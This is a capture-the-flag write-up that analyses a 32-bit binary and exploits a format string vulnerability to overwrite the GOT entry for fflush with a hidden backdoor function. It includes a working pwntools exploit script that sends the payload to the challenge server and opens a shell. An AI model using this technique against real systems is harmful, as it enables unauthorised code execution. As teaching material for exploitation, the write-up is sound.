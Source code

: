 # FinalFormat

## Recon

In this challenge, we are given an executable that we must analyze and exploit.

### Testing the program

By running the executable, we are prompted with the message "There is nothing to see here...".
If we, however, type something in and hit ENTER, what we typed in will be printed back.

![Normal execution of the program](/images/final-format/testing-vulnerabilities/1.png)

That means that our input is being read to a buffer and printed back. Therefore, we decided to test the possibility of a buffer overflow.
We found that the buffer is, most likely, not susceptible to buffer overflows since we typed in 110 characters, only 60 were printed back and no stack smashing was detected (due to the stack canaries).

![Testing for the possibility of a buffer overflow](/images/final-format/testing-vulnerabilities/2.png)

With buffer overflows out of the way, we tried format string vulnerabilities. Also, the challenge is named Final**Format** so it was very likely that the exploit would be based on format string vulnerabilities.

![Testing for the possibility of a format string vulnerability](/images/final-format/testing-vulnerabilities/3.png)

It worked! This is very good since, with a format string vulnerability, we are able to write to arbitrary addresses in memory. This, in conjunction with a Partial RELRO and no PIE (meaning that the address of the GOT in execution is the same as when `readelf` is run), means that we can overwrite the addresses in the GOT very easily and, thus, when a libc function is called, jump to an arbitrary address in memory and execute that code instead. 

### Protections

Executing `checksec program`, we get the following output:

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

This gives us some important pieces of information:

1. The executable's architecture is 32 bits and little-endian.
2. Partial RELRO is enabled. 
3. Stack canaries are enabled.
4. NX is enabled and, therefore, we won't be able to execute code from the stack, for instance.
5. PIE is disabled.

Partial RELRO means that the GOT comes before the BSS section in memory. This means that buffer overflows in global variables can't overwrite the GOT, however, it can still be changed.

With stack canaries enabled, we can only perform ROP attacks if we manage to leak the stack canary beforehand.

### Executable symbols

At this point, we can execute any piece of code already on the executable (can't be on the stack because of NX).
However, we don't have any piece of code that can give us a shell.

If we execute `readelf -s program`, we get the following output:

```
Symbol table '.symtab' contains 74 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
    ...
    23: 0804bff8     0 SECTION LOCAL  DEFAULT   23 .got
    24: 0804c000     0 SECTION LOCAL  DEFAULT   24 .got.plt
    ...
    51: 08049236    55 FUNC    GLOBAL DEFAULT   15 old_backdoor
    ...
    69: 0804926d   155 FUNC    GLOBAL DEFAULT   15 main
    ...
```

As you can see, we have the symbol `main`, which is expected. Then, we have the GOT and the GOT PLT (Procedure Linkage Table) sections at `0x0804bff8` and `0x0804c000` respectively. Finally, we have a suspicious function named `old_backdoor`, located at `0x08049236`.

Using `objdump --disassemble=old_backdoor program`, we can get the assembly code of `old_backdoor`.

```asm
08049236 <old_backdoor>:
 8049236:	f3 0f 1e fb          	endbr32
 804923a:	55                   	push   %ebp
 804923b:	89 e5                	mov    %esp,%ebp
 804923d:	53                   	push   %ebx
 804923e:	e8 2d ff ff ff       	call   8049170 <__x86.get_pc_thunk.bx>
 8049243:	81 c3 bd 2d 00 00    	add    $0x2dbd,%ebx
 8049249:	8d 83 08 e0 ff ff    	lea    -0x1ff8(%ebx),%eax
 804924f:	50                   	push   %eax
 8049250:	e8 8b fe ff ff       	call   80490e0 <puts@plt>
 8049255:	83 c4 04             	add    $0x4,%esp
 8049258:	8d 83 1b e0 ff ff    	lea    -0x1fe5(%ebx),%eax
 804925e:	50                   	push   %eax
 804925f:	e8 8c fe ff ff       	call   80490f0 <system@plt>
 8049264:	83 c4 04             	add    $0x4,%esp
 8049267:	90                   	nop
 8049268:	8b 5d fc             	mov    -0x4(%ebp),%ebx
 804926b:	c9                   	leave
 804926c:	c3                   	ret
```

As we can see, a string is printed and then a command is executed using `system`. If the command is a `/bin/sh` or something along those lines, this means that we can jump to this function in our attack to get our shell.

### Debugging

To get more information about `old_backdoor`, we'll use `gdb`, along with `gef` (a popular GDB plugin).

We will start the debugging session using `gdb program` and set a breakpoint on `main` using `b main`. After that, we'll execute the program by executing `run` inside the debug session.

![Program running inside debug session](/images/final-format/debug/1.png)

Then, we will set a breakpoint on and jump to `old_backdoor`, using `b old_backdoor` followed by `jump old_backdoor`.

![Program running old_backdoor](/images/final-format/debug/2.png)

We will now step using `ni` until we get to the `system` call.

![Stack when system is about to be executed](/images/final-format/debug/3.png)

As you can see from the stack view, the argument for this system call is `/bin/bash`, meaning that this method can be used to get a shell on the server.

Now that we know what `old_backdoor` does, we can start figuring out what address in the GOT we need to overwrite to jump to `old_backdoor`. For that, we'll restart the debug session, set a breakpoint on `main` and `run` the program.

Then, we will skip to the `printf` where our message is printed, which is located at `0x80492d4`.

![Program when printf is about to be executed](/images/final-format/debug/4.png)

Here, we will step using `ni` until we find a `call` instruction that jumps to the `plt` section (the functions in this section use the addresses from the GOT to see if the corresponding function has already been loaded and, if it has, it will jump to the address present in the GOT).

That call will be a call to `fflush@plt` at `0x80492e5`.

![Program when fflush@plt is about to be executed](/images/final-format/debug/5.png)

Here, we want to go inside the function and, as such, we'll execute `si`.

![Disassembled code inside fflush@plt](/images/final-format/debug/6.png)

As you can see, `fflush@plt`'s second instruction is `jmp    DWORD PTR ds:0x804c010`, meaning that it will jump to the address placed at `0x804c010`. That address is `0xf7dda2c0`, which is the address of libc's `fflush`. Finally, the address `0x804c010`is located in the GOT, meaning that we can overwrite it with the address of `old_backdoor`, making `fflush@plt` jump to `old_backdoor` instead of libc's implementation of `fflush`.

![GOT at the location referenced by fflush@plt](/images/final-format/debug/7.png)

## Exploitation

In order to overwrite the GOT, we can use the `FmtStr` utility in pwntools, which allows us to specify a dictionary where the keys are the addresses we want to write to and the values are the bytes we want to write to those addresses. The result is a format string which, when printed, executes those writes.

With all the information we got previously in mind, we developed the following exploit: 

```py
from pwn import *

def exec_format(payload):
    p = process("./program")
    p.recvuntil(b'...')
    p.sendline(payload)
    output = p.recvall()
    p.kill()
    return output

context.binary = "./program"

elf = ELF("./program")
fflush_ptr = elf.got["fflush"]
backdoor_addr = elf.symbols["old_backdoor"]

print("fflush_addr:", hex(fflush_ptr))
print("backdoor_addr:", hex(backdoor_addr))

autofmt = FmtStr(exec_format)
offset = autofmt.offset

writes = { fflush_ptr: backdoor_addr }
print(f"Writes: {writes}")

payload = fmtstr_payload(offset, writes)
print("Payload:", payload)
print("Payload length:", len(payload))

p = remote("ctf-fsi.fe.up.pt", 4007)
p.recvuntil(b'...')
p.sendline(payload)
p.interactive()
```

To get the flag, run this script and then execute `cat flag.txt`.

![Exploit being executed](/images/final-format/exploit.png)